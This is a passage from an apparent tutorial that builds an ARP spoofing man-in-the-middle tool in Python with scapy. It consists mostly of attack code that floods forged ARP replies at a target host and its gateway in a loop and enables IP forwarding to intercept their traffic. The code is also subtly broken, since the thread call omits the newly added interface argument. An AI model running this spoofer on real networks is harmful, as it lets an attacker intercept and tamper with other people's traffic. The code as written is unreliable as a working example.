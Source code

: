 First we’re adding a new parameter `interface`, which tells scapy which network interface we want to perform the operation on. Next, we’ll move the ARP spoofing code into a thread, so it can run continuously:

```python{numberLines: true}
import threading

# ...
def arp_spoof(
    interface: str, target_ip: str, target_mac: str, gateway_ip: str, gateway_mac: str
):
    # Build the packets
    target_packet = Ether(dst=target_mac) / ARP(
        op=2, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip
    )
    router_packet = Ether(dst=gateway_mac) / ARP(
        op=2, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip
    )
    while True:
        sendp([target_packet, router_packet], verbose=0, iface=interface)
        # Sleep for 1 second between beacons
        time.sleep(1)
```

Also, we’re going to move the initialization part of the script into it’s own function:

```python{numberLines: true}
def main(target_ip: str, gateway_ip: str, interface: str):
    # Resolve the MAC addresses
    target_mac = resolve_ip("target", target_ip)
    gateway_mac = resolve_ip("gateway", gateway_ip)
    os.system("sysctl -w net.ipv4.ip_forward=1")
    # Loop forever and beacon packets
    try:
        arp_spoof_thread = threading.Thread(
            target=arp_spoof,
            args=(target_ip, target_mac, gateway_ip, gateway_mac),
            daemon=True,
        )
        arp_spoof_thread.start()
        arp_spoof_thread.join()
    except KeyboardInterrupt:
        os.system("sysctl -w net.ipv4.ip_forward=0")

if __name__ == "__main__":
    gateway_ip = "192.168.1.1"
    target_ip = "192.168.1.110"
    interface = "enp0s31f6"
    main(target_ip, gateway_ip, interface)
```

While we’re at it, we might as well leverage `argparse` to pass in our target and gateway IP address as parameters:
